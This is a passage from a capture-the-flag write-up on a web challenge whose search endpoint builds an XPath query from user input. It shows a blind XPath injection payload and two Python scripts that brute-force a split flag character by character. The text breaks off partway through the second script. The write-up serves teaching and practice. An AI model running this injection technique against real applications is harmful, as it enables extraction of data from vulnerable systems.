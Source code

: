 ```

app.run("0.0.0.0", port=1337, debug=True)
```

Ok, so the app is running in debug mode and we can see some of the code in the backend. We can also see that the xml file is being searchoed with xpath. This gives us the possibility to perform xpath injection. We can send a name like this: `asd' or contains(selfDestructCode, 'CHTB{') or name='asd`, so that the final xpath being used will look like this `/military/district/staff[name='asd' or contains(selfDestructCode, 'CHTB{') or name='asd']`. This way we will look for a staff member named `asd` (which of course doesn't exist), or for a staff member with a `selfDestructCode` containing `CHTB{`. Dependeing on whether the server returns a JSON object with the field `success` or `failure`, we can tell if our partial flag did match a part of the real one.

From here, we can continue as in the previous chal, we add characters to this string until we hit a dead end. However, in this case the flag will be split across different `staff` elements, so after exhausting all the valid combinations of characters beginning with `CHTB{`, we need to do something else.

This is the code for the first part of the exploit:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = "CHTB{"

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or contains(selfDestructCode, '" + flag + letter + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
        print('No more letter could be added to the first part of the flag')
        break
    else:
        flag = flag + res
        print(flag)
```

And this gives us the string `CHTB{Th3_3xTr4_l3v3l_`. In order to find this I had to use a bigger alphabet than in the previous challenge, so it took a little bit longer. Now we can repeat the same exploit but instead of using the prefix `CHTB{` we can use the suffix `}` and add characters in the opposite direction, like so:

```
import string
import requests

alphabet = string.ascii_lowercase + '0123456789_!.,#@$;:-' + string.ascii_uppercase

flag = "}"

while True:
    res = None
    for letter in alphabet:
        searchString = "asd' or contains(selfDestructCode, '" + letter + flag + "') or name='asd"
        response = requests.post('[remoteInstance]/api/search', json={'search': searchString})
        if 'success' in response.json():
            res = letter
            break
    if res == None:
```